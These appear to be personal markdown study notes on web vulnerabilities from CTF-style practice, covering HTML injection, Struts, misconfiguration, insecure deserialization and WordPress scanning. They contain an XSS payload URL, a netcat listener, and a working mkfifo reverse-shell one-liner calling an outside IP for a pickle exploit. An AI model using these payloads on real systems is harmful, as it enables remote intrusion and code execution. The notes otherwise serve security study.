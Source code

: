 ### HTML injection attack:
Adding arbitrary html code into the page via passing html code to input/parameter. The target variable responsible is due to innerHTML or document.write
```
var userposition=location.href.indexOf("user=");
var user=location.href.substring(userposition+5);
document.getElementById("Welcome").innerHTML=" Hello, "+user;
```
```
var userposition=location.href.indexOf("user=");
var user=location.href.substring(userposition+5);
document.write("<h1>Hello, " + user +"</h1>");
```
Both code can be passed the payload like `http://vulnerable.site/page.html?user=<img%20src='aaa'%20onerror=alert(1)>` and will execute any arbitrary code



### Apache Struts
if it website link contains .strut, .trq or .do then check for vulnerability and check the exploit using google.com
    	- exploit-db gives use the  exploit payload
    	- 


### Jenkin CVs


### Security Misconfiguration
https://tryhackme.com/r/room/owasptop10
oshp-validator github to validate all headers ( for future )
- Default Passwords on gitub or in source code
- 


### Serialisation / deserialisation
- insecure deserialisation 
  - Cookie
    - secure only : if set, this cookie will set over https
    - change different flag of cookie to check for IDOR or access admin page
  - python pickle exploit
    `nc -nlvp 4444`
    checking the deserialisation happening from base64 using pickle.loads(base64),
    so encoding our command into base64
    reverse shell payload `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.17.27.35  4444 > /tmp/f`
    * find any file any level deep
    `find <root dir> -type f -name '<regex for file>'`
    * all decoding https://dencode.com

### Known vulnerability
    - `wpscan` for wordpress scan to get the version and check vulnerability if present on exploit-db and use the exploit as is to check the vulnerability
    - check different variable of the keyword found and do the exploit-db search properly
